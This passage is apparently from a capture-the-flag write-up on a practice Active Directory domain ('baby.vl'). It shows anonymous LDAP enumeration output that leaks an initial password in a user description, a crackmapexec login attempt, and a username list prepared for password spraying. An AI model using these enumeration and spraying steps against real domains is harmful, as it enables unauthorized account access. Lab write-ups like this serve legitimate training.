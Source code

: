 ```bash
description: Servers in this group can access remote access properties of user
 s
distinguishedName: CN=RAS and IAS Servers,CN=Users,DC=baby,DC=vl
--
description: Members in this group can have their passwords replicated to all 
 read-only domain controllers in the domain
distinguishedName: CN=Allowed RODC Password Replication Group,CN=Users,DC=baby
--
description: Members in this group cannot have their passwords replicated to a
 ny read-only domain controllers in the domain
member: CN=Read-only Domain Controllers,CN=Users,DC=baby,DC=vl
--
description: Members of this group are Read-Only Domain Controllers in the ent
 erprise
distinguishedName: CN=Enterprise Read-only Domain Controllers,CN=Users,DC=baby
--
description: Members of this group that are domain controllers may be cloned.
distinguishedName: CN=Cloneable Domain Controllers,CN=Users,DC=baby,DC=vl
instanceType: 4
--
description: Members of this group are afforded additional protections against
  authentication security threats. See http://go.microsoft.com/fwlink/?LinkId=
 298939 for more information.
--
description: DNS Administrators Group
distinguishedName: CN=DnsAdmins,CN=Users,DC=baby,DC=vl
instanceType: 4
--
description: DNS clients who are permitted to perform dynamic updates on behal
 f of some other clients (such as DHCP servers).
distinguishedName: CN=DnsUpdateProxy,CN=Users,DC=baby,DC=vl
--
description: Set initial password to BabyStart123!
givenName: Teresa
distinguishedName: CN=Teresa Bell,OU=it,DC=baby,DC=vl
```

It seems that we can obtain information anonymously, and the most interesting part is the last line, which gives us the credentials of a user named 'teresa.bell' and her password 'BabyStart123!'. So we can try to access the smb or ldap with these credentials.

```bash
crackmapexec  ldap 10.10.64.2432 -u 'teresa.bell' -p 'BabyStart123!'

SMB  10.10.64.243 445  BABYDC  [-] baby.vl\Teresa Bell:BabyStart123! Error connecting to 
```

However, those don't seem to be the correct credentials for that account, but we can confirm that this password is indeed associated with an account. So our next plan is to create a txt file with the usernames and try them one by one. I created the following file:

```bash
Administrator
Guest
krbtgt
Domain Computers
Domain Controllers
Schema Admins
Enterprise Admins
Cert Publishers
Domain Admins
Domain Users
Domain Guests
Group Policy Creator Owners
RAS and IAS Servers
```